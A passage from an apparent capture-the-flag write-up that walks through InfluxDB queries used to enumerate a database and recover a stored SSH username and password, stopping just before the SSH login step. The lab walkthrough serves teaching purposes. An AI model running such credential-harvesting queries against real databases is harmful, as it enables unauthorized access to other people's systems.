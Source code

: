     # we can check other info

    history
    # show history

    settings
    # show settings

    show tag keys

    show field keys
    
    show measurements
    # nothing useful found here

    use creds
    
    show series
    # we get "ssh,user=uzJk6Ry98d8C"

    select * from "ssh,user=uzJk6Ry98d8C"
    # we do not get anything

    select * from ssh,user=uzJk6Ry98d8C
    # this gives us an error parsing query

    show tag keys

    show field keys
    # pw
    # this could be the password
    
    show measurements
    # shows 'ssh'

    select * from ssh
    # this gives us user "uzJk6Ry98d8C" and pw "7788764472"
    ```

* From the above clues, we can try SSH access:
